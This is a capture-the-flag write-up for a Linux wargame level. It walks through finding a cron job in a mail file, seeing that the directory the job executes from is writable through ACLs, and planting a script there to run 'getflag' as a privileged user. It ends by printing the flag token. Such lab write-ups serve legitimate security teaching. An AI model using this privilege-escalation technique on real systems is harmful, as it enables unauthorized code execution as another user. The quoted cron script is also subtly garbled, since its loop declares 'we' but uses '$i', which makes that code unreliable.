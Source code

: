 # level05

- We log as `level05`

- As we log we can se a notification: `You have new mail.`

- We go into `/var/mail` and we find a `level05` file which contains:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- This is a cron job that runs the command `su -c "sh /usr/sbin/openarenaserver"` every 2 minues

- Let's take a look at `/usr/sbin/openarenaserver`

- It is a simple sh script:
```
#!/bin/sh

for we in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
done
```

- We can see that this script execute every script present inside `/opt/openarenaserver` directory with `bash -x` and removes it after.

- We can check `/opt/openarenaserver` permissions using  `ls -la /opt/openarenaserver`
>`drwxrwxr-x+ 2 root root 40 Aug 17 23:50 .`

- It has extended permissions:
```
# file: .
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

- We can see `level05` user (us) has all permissions on this directory so let's create a simple shell script named `pwn` inside `/opt/openarenaserver` :
>`echo "getflag > /tmp/pwned.txt" > /opt/openarenaserver/pwn`

- After 2 minutes the `/opt/openarenaserver/pwn` file dissapeared and a `/tmp/pwned.txt` file appeared

- Inside we get the flag: `viuaaale9huek52boumoomioc`
